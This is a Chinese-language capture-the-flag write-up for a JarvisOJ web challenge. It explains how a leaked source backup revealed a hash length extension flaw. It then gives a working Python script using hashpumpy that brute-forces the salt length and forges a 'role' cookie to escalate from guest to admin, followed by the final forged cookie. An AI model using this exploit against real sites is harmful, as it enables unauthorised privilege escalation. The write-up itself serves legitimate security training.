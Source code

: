 &emsp;&emsp;打开提示只有admin才能看见flag，burp抓包发现奇怪的cookie：

![](/img/JarvisOJ-WEB-1/WEB15.png)

&emsp;&emsp;其实之前在实验吧玩过同样的套路，这是hash长度扩展攻击。真正的解题在于存在源码泄露,在`http://web.jarvisoj.com:32778/index.php~`可以找到源码，然后知道这是hash长度扩展攻击。

&emsp;&emsp;不过这题比实验吧更大的难度在于不知道盐的长度，所以采用爆破的方法：

```Python
import hashpumpy
import urllib
import requests
for i in range(1,30):
	m=hashpumpy.hashpump('3a4727d57463f122833d9e732f94e4e0',';\"tseug\":5:s',';\"nimda\":5:s',i)
	print i		
	url='http://120.26.131.152:32778/'
	digest=m[0]
	
	message=urllib.quote(urllib.unquote(m[1])[::-1])
	cookie='role='+message+'; hsh='+digest
	#print cookie
	headers={
	'cookie': cookie,
	'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; WOW64; rv:55.0) Gecko/20100101 Firefox/55.0',
	'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
	'Accept-Language': ':zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3',
	'Accept-Encoding': 'gzip, deflate'
    }
	print headers
	re=requests.get(url=url,headers=headers)
	print re.text
	if "Welcome" in re.text:
		print re;
		break
```

&emsp;&emsp;运行程序然后构造最终的cookie：

&emsp;&emsp;`role=s%3A5%3A%22admin%22%3B%00%00%00%00%00%00%00%C0%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%80s%3A5%3A%22guest%22%3B; hsh=fcdc3840332555511c4e4323f6decb07`

![](/img/JarvisOJ-WEB-1/WEB16.png)
